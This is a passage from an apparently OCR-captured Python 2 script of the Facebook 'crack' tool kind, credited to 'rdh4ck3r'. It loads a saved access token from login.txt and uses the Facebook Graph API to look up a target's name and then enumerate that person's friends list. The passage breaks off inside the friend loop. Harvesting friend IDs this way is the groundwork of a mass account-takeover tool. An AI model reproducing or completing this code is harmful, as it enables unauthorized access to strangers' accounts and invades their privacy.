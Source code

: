 	print "\033[1;32;98m[0] \033[1;96mLog out"
	pilih()

def pilih():
	unikers = raw_input("\n\033[1;31;40m>>> \033[1;35;40m")
	if unikers =="":
		print "\x1b[1;91mFill in correctly"
		pilih()
	elif unikers =="1":
		super()
	elif unikers =="2":
		os.system('clear')
		print logo
		print "\033[1;96m═════════════════════ ✮❁•°♛°•❁✮ ══════════════════════\n" 
		os.system('git pull origin master')
		raw_input('\n\x1b[1;91m[ \x1b[1;97mBack \x1b[1;91m]')
		menu()
	elif unikers =="0":
		jalan('Token Removed')
		os.system('rm -rf login.txt')
		keluar()
	else:
		print "\x1b[1;91mFill in correctly"
		pilih()

def super():
	global toket
	os.system('clear')
	try:
		toket=open('login.txt','r').read()
	except IOError:
		print"\x1b[1;91mToken invalid"
		os.system('rm -rf login.txt')
		time.sleep(1)
		login()
	os.system('clear')
	print logo
	print "\033[1;36;48m🞂━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━🞀" 
	print "\x1b[1;32;40m[1] \033[1;33;40m⚡ From Public ID"
	print "\x1b[1;32;40m[0] \033[1;33;40m⚡ Exit"
	print "\033[1;36;48m🞂━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━🞀"
	pilih_super()

def pilih_super():
	peak = raw_input("\n\033[1;31;40m>>> \033[1;97m")
	if peak =="":
		print "\x1b[1;91mFill in correctly"
		pilih_super()
	elif peak =="1":
		os.system('clear')
		print logo
		print "!! ━ ━ ━ ━ ━ ━ ━ ━ ━ ━ ━(modify_is_rdh4ck3r)━ ━ ━ ━ ━ ━ ━ ━ ━ ━━ !!\n" 
		idt = raw_input("\033[1;96m[💠]\033[1;93m Enter ID\033[1;91m : ")
		try:
			jok = requests.get("https://graph.facebook.com/"+idt+"?access_token="+toket)
			op = json.loads(jok.text)
			print"\033[1;31;37m[💠] Name : "+op["name"]
		except KeyError:
			print"\x1b[1;37m[!!] ID Not Found!"
			raw_input("\n\033[1;96m[\033[1;94mBack\033[1;96m]")
			super()
		print"\033[1;35;37m[💠] Getting ID▃ ▂ ▁ _ "
		r = requests.get("https://graph.facebook.com/"+idt+"/friends?access_token="+toket)
		z = json.loads(r.text)
		for i in z['data']: